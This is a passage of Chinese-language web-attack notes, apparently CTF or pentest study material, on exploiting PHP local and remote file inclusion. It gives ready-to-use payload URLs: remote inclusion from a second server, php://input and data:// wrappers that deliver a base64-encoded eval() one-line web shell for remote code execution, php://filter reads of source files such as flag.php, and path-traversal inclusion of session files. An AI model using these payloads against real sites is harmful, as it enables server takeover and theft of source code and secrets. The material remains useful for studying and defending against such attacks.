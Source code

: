 			攻击者可以在自己的Web服务器上放一个可执行的恶意文件，通过目标网站存在的远程文件包含漏洞来加载文件，从而实现执行任意命令的目的
			截断：%23，#，？，%00,长文件名
			demo:
				http://192.168.1.100/index.php?file=http://192.168.1.200/flag.txt
				

		}
		3.php读写文件协议
		{
			php读写文件包含
			http://blog.csdn.net/niexinming/article/details/52605144
			需要目标服务器支持，同时要求allow_url_fopen为设置为ON。在PHP5.2.0之后的版本中支持data: 伪协议，可以很方便的执行代码。
			?file=php://input
				php://input可以读取没有处理过的POST数据。相较于$HTTP_RAW_POST_DATA而言，它给内存带来的压力较小，并且不需要特殊的php.ini设置。php://input不能用于enctype=multipart/form-data
				应用场景：file_get_contents($user,'r')，将变量值作为文件名进行读取,file_get_contents() 函数把整个文件读入一个字符串中。
				
				http://192.168.1.100/index.php?file=php://input
				之后post一句话<?php eval($_POST['123']);?>getshell
				(需要allow_url_include=On，详细→http://php.net/manual/en/wrappers.php.php)
				
				
			?file=php://filter/convert.base64-encode/resource=
				php://filter是PHP语言中特有的协议流，作用是作为一个“中间流”来处理其他流。
				parser error : StartTag: invalid element name,在解析XML的时候会被误认为是XML，而其中内容（比如特殊字符）又有可能和标准XML冲突，所以导致了出错。
				为了读取包含有敏感信息的PHP等源文件，我们就要先将“可能引发冲突的PHP代码”编码一遍，这里就会用到php://filter
				应用场景：include($file);
				
				//读取包含有敏感信息的PHP等源文件
				http://192.168.1.100/index.php?file=php://filter/read=convert.base64-encode/resource=flag.php 
				读取源码:基本都能用，路径被限制则失败
				
				//将POST内容转换成base64编码并输出
				readfile("php://filter/read=convert.base64-encode/resource=php://input");
				

				
			?file=data://text/plain;base64,PD9waHAgZXZhbCgkX1BPU1RbJzEyMyddKTs/Pg==
			//?file.name=data://text/plain;charset=unicode,hello	
				/rfi.php?file=data:text/plain,<?php%20phpinfo();?>
				<?php eval($_POST['123']);?>
				(需要allow_url_include=On)
			
				data URI scheme	，减少HTTP 请求 (http request) 的次数，让我们直接把传输文件的内容崁入请求中里面
					data - 取得数据的协定名称
					image/png - 数据类型名称
					base64 - 数据的编码方法
					iVBOR.... - 编码后的数据
					: , ; - data URI scheme 指定的分隔符号
	
			php://filter仅可以用一次，php://input可多次重复使用
				
			参考文章：
				http://www.91ri.org/7469.html
				http://hi.baidu.com/casperkid/item/2baf952b13a9cd0e76272cb0
				http://blog.csdn.net/beyond__devil/article/details/52860333
				http://www.freebuf.com/articles/web/14097.html	
				http://www.freebuf.com/articles/web/9181.html
				https://www.waitalone.cn/php-file-include.html
		}
		4.包含Session文件
		{
			需要攻击者能够控制部分Session文件的内容。PHP默认生成的Session文件一般存放在/tmp目录下
			file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7
			